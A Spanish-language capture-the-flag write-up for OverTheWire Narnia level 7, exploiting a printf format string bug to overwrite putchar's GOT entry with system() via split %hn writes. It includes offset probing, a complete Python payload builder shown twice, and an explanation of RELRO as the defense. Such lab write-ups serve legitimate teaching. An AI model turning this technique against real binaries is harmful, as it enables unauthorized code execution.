

```bash
$ ssh narnia7@narnia.labs.overthewire.org -p 2226

$ echo $TARGET
> una función que imprime · una tabla que obedece · el número que nadie estaba vigilando

$ echo $VECTOR
> format string vulnerability · GOT overwrite · %hn · redirección quirúrgica de flujo
```

---

## `> [RECON]`

```bash
$ objdump -R /narnia/narnia7 | grep putchar
```

```
080497ec R_386_JUMP_SLOT  putchar
```

Cuando digo GOT, no me refiero a la canción.

Aunque si la conoces — ya entiendes el principio.

Polyphia no rompió las reglas de la guitarra.
Operó dentro de ellas con tanta precisión
que el resultado fue algo que nadie había visto venir.
Sin salirse del instrumento. Sin forzar nada.
Solo redirigir lo que ya existía hacia un destino diferente.

El ataque GOT hace exactamente eso.
No rompe el binario.
No inyecta nada ajeno.
Cambia una dirección en una tabla
y deja que el sistema se encargue del resto.

El binario sigue funcionando como siempre.
Hasta que no.

```bash
$ cat /narnia/narnia7.c
```

```c
printf(argv[1]);
putchar('\n');
```

`printf` sin argumento de formato — ya sabes lo que eso significa desde Narnia 5.
La diferencia esta vez no es la primitiva. Es el objetivo.

El stack ya no importa.
La tabla sí.

---

## `> [HYPOTHESIS]`

```diff
+ printf(argv[1]) — escritura arbitraria via %n.
+ putchar@GOT vive en 0x080497ec. dirección estática. sin ASLR.
+ la GOT tiene permisos de escritura. nadie la está vigilando.
+ si reescribimos putchar@GOT con la dirección de system() —
  la próxima llamada a putchar() ejecuta system().
+ %hn escribe 2 bytes. dividimos system() en dos medias escrituras.
- busqué un overflow clásico. no existe. el vector es otro.
- intenté %n completo para valores grandes. el proceso se congeló
  intentando imprimir ciento veintiocho millones de caracteres de padding.
```

---

## `> [ATTEMPTS]`

<details>
<summary><code>// 3l d1r3ct0r10 s13mpr3 3stuv0 4b13rt0.</code></summary>

```bash
# — intento 1
# mapear la pila. encontrar dónde vive nuestro input.
$ /narnia/narnia7 "AAAA.%x.%x.%x.%x.%x.%x"
# AAAA.f7fcb3c4.ffffd6a4.f7ffd000.41414141.78252e78.2e78252e
# el cuarto bloque: 41414141. nuestro input está en la posición 4.
# el binario nos acaba de decir dónde estamos parados.

# — intento 2
# confirmar con acceso directo.
$ /narnia/narnia7 "BBBB.%4\$x"
# BBBB.42424242
# confirmado. %4$x apunta exactamente a nuestro input.

# — intento 3
# localizar system() en libc.
gdb$ print system
# $1 = 0xf7e4c860
# sin ASLR la dirección no cambia entre ejecuciones.
# lo que GDB muestra es lo que hay afuera.

# — intento 4
# primer payload. %n completo.
$ /narnia/narnia7 $(python3 -c '
import sys
got = (0x080497ec).to_bytes(4,"little")
sys.stdout.buffer.write(got + b"%4$n")
')
# el proceso intentó imprimir 0xf7e4c860 caracteres de padding.
# el terminal murió esperando.
# %n completo para valores grandes → nunca más.

# — intento 5 — ahí.
# %hn — escribe solo 2 bytes por operación.
# dividimos 0xf7e4c860 en dos mitades:
#   bytes bajos → 0xc860 → en putchar@GOT
#   bytes altos → 0xf7e4 → en putchar@GOT+2
$ /narnia/narnia7 $(python3 -c '
import sys
got_lo = (0x080497ec).to_bytes(4,"little")
got_hi = (0x080497ee).to_bytes(4,"little")

lo = 0xc860
hi = 0xf7e4

pad1 = lo - 8
pad2 = (hi - lo) & 0xffff

payload = got_lo + got_hi
payload += f"%{pad1}x%4\$hn".encode()
payload += f"%{pad2}x%5\$hn".encode()
sys.stdout.buffer.write(payload)
')
```

```txt
putchar@GOT → 0xf7e4c860
próxima llamada a putchar('\n') → system()
shell: narnia8.
```

</details>

---

## `> [BREAK]`

La GOT antes:

```
  putchar@GOT  →  0xf7e6a4b0   ← putchar real en libc
```

La GOT después de `%hn`:

```
  putchar@GOT  →  0xf7e4c860   ← system()
```

El flujo que el programador diseñó:

```
main() → printf(argv[1]) → putchar('\n') → libc::putchar → salto de línea
```

El flujo después:

```
main() → printf(argv[1])
              ↓
         [GOT reescrita durante printf]
              ↓
         putchar('\n') → GOT → system("/bin/sh")
```

No tocaste el stack.
No inyectaste código.
Cambiaste un número en una tabla.

El directorio telefónico interno del proceso
tiene el número real de cada función externa.
`putchar` tenía el suyo desde que el proceso arrancó.
No hackeaste a `putchar`.
Cambiaste su número.
Cuando el binario marcó, contestó otra voz.

Esa ventana fue documentada a principios de los 2000.
La respuesta fue **RELRO** — Relocation Read-Only.
Con RELRO full activo, la GOT se vuelve de solo lectura
después de que el dynamic linker termina su trabajo.
Este ataque no funciona.

En Narnia 7, RELRO no existe.
El directorio sigue abierto.

> *→ [`/lore/stealth_got.md`](../lore/stealth_got.md)*

---

## `> [EXPLOIT]`

```bash
/narnia/narnia7 $(python3 -c '
import sys
got_lo = (0x080497ec).to_bytes(4,"little")
got_hi = (0x080497ee).to_bytes(4,"little")

lo = 0xc860
hi = 0xf7e4

pad1 = lo - 8
pad2 = (hi - lo) & 0xffff

payload = got_lo + got_hi
payload += f"%{pad1}x%4\$hn".encode()
payload += f"%{pad2}x%5\$hn".encode()
sys.stdout.buffer.write(payload)
')
```

```
objdump -R       → la GOT habla primero. siempre escucharla.
%4$x             → acceso directo a la posición 4. sin caminar la pila entera.
AAAA → 41414141  → el binario te dice dónde estás parado.
                   si no lo ves, no estás mirando.
%hn              → 2 bytes por escritura. no 4.
                   dividir es más limpio que forzar.
pad1 / pad2      → matemática de formato. el contador de bytes
                   como arma de precisión.
```

---

## `> [FLAG]`

```
[REDACTED]
```

> n0 m3 l4 d1g4s. n0 m3 1nt3r3s4.
> 3l pr3m10 n0 3s un str1ng d3 t3xt0.

---

## `> [REFLECTION]`

```diff
+ objdump -R primero. la GOT habla antes de que hagas nada.
+ AAAA → 41414141 en el leak. el offset no se adivina. el binario lo muestra.
+ %hn divide la escritura. %n completo para valores grandes → el proceso muere esperando.
+ RELRO full cierra esta ventana. sin él, cualquier entrada en la GOT es superficie de ataque.
- buscar overflow donde el vector es la GOT → tiempo perdido. leer el binario primero.
- %n para system() completo → cuatro mil millones de caracteres de padding. nunca más.
```

---

## `> echo $CHALLENGE`

Cambiaste un número en un directorio.
El proceso lo consultó, confió, y saltó.

Explícame cuántos binarios en producción hoy
corren sin RELRO full activo.

Busca **checksec**.
Ejecutalo contra cualquier binario del sistema.
Mira cuántos dicen `RELRO: No` o `RELRO: Partial`.

El que lo hace entiende por qué
la superficie de ataque no siempre está donde duele.
A veces está en una tabla que nadie pensó en cerrar.

---

```
█████████████████████████████████████████████
█                                           █
█   n0 h4ck34st3 3l b1n4r10.              █
█         c4mb14st3 un núm3r0              █
█              3n su d1r3ct0r10.           █
█                                           █
█████████████████████████████████████████████
```

> *→[https://youtube.com/t474-r0b07](https://youtube.com/@kaderd.garnica?si=9vk1E6Gkkb7LftTK)*
---

> *→ anterior: [narnia6](narnia06.md)**→ siguiente: [narnia8](narnia08.md)*

> > 🔴 **EL RASTRO CONTINÚA**
>
> La GOT es solo la entrada. El directorio completo está más abajo.
>
> 🧭 **[ÍNDICE DEL LORE](https://github.com/t474-r0b07/ctf-writeups/tree/main/lore)**

---
<!-- 0x47 0x4f 0x54 // 3l núm3r0 qu3 n4d13 v1g1l4b4 3r4 3l qu3 1mp0rt4b4. -->
